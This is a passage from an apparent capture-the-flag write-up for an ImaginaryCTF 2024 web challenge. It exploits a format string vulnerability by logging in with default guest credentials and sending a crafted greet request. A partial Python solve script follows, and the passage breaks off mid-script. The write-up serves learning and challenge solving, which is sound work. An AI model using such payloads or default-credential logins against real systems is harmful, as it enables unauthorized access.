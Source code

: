 So, we can use username `guest` password `guest` to login!

## Exploitation

With the above information, we can now exploit the format string vulnerability to get the flag!

- Login as `guest` account

![](https://github.com/siunam321/CTF-Writeups/blob/main/ImaginaryCTF-2024/images/Pasted%20image%2020240723151021.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/ImaginaryCTF-2024/images/Pasted%20image%2020240723151030.png)

- Send the following request to get the flag

```http
GET /greet?greeting=print_flag&format=~@~w HTTP/1.1
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/ImaginaryCTF-2024/images/Pasted%20image%2020240723151113.png)

Or run the following solve script:

```python
#!/usr/bin/env python3
import requests
import re

class Solver:
    def __init__(self, baseUrl):
        self.baseUrl = baseUrl
        self.session = requests.session()
        self.GUEST_CREDENTIALS = 'guest'
        self.PRINT_FLAG_FUNCTION_NAME = 'print_flag'
        self.FORMAT_PAYLOAD = '~@~w'
        self.FLAG_REGEX = re.compile('(ictf\{.*?\})')

    def login(self):
        url = f'{self.baseUrl}/login'
        data = {
            'username': self.GUEST_CREDENTIALS,
            'password': self.GUEST_CREDENTIALS
        }

        self.session.post(url, data=data)

    def getFlag(self):
```